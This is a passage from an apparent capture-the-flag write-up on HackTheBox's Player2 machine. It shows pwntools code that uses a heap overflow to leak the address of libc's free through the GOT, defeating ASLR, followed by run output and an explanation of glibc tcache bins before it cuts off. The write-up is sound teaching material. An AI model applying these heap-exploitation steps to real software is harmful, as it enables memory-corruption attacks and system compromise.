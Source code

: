 

It worked! In the description field there's just some non-ascii stuff
that is the address of `free`. I can clean up how I print a bit and add
some math to calculate the libc base address:



    new_config('dummy1', 0x18, 'to be deleted')   # slot 0
    new_config('leak', 0x18, 'to be overwritten') # slot 1
    del_config(0)
    new_config(b'A'*0x50 + p64(Protobs.got["free"]), 0x18, 'B'*0x16) # slot 0
    leaked_free = u64(print_config(1)[-8:-2].ljust(8, b"\x00"))
    print(f'[+] Leaked free: 0x{leaked_free:x}')
    libc_base = leaked_free - libc.sym["free"]
    print(f'[+] libc base address: 0x{libc_base:x}')





    root@kali# python3 ./pwn_protobs.py 
    [+] Starting local process './Protobs': pid 17471
    [+] Leaked free: 0x7fdf906c81d0
    [+] libc base address: 0x7fdf9062f000



#### Heap tcache Bins

With the leak I've bypassed ASLR. I can now work to get a shell. I'll
notice that if I start the program, add a config, and then delete it,
both of the freed buffers (config object and description buffer) are in
[tcache
bins](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/implementation/tcache/).
The tcache are thread specific bins introduced in glic 2.26 (Ubuntu
17.10), and consist of 64 singly-linked lists or bins that can each hold
up to seven same-sized chunks. When a freed buffer goes to tcache, it is
left marked as in use, and the first word of the data is used as an
entry in the linked list. So when the first buffer is added, the address
of that buffer is added to the tcache's starting list, and then a null
terminator is added as the first word of data. If a second is added,
it's first word points to the original bin, and the tcache not points to
it. And for different sized buffers, they end up in different lists.

I'll show a couple examples. First I'll start, create, delete:



    root@kali# python3 pwn_protobs.py 
    [+] Starting local process '/media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/Protobs': pid 2574
    > /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/pwn_protobs.py(46)<module>()
    -> new_config('dummy1', 0x18, 'to be deleted')   # 0
    (Pdb) new_config('0xdf', 0x18, '0xdf config')
    (Pdb) del_config(0)



Attached gdb and run `heapinfo`:
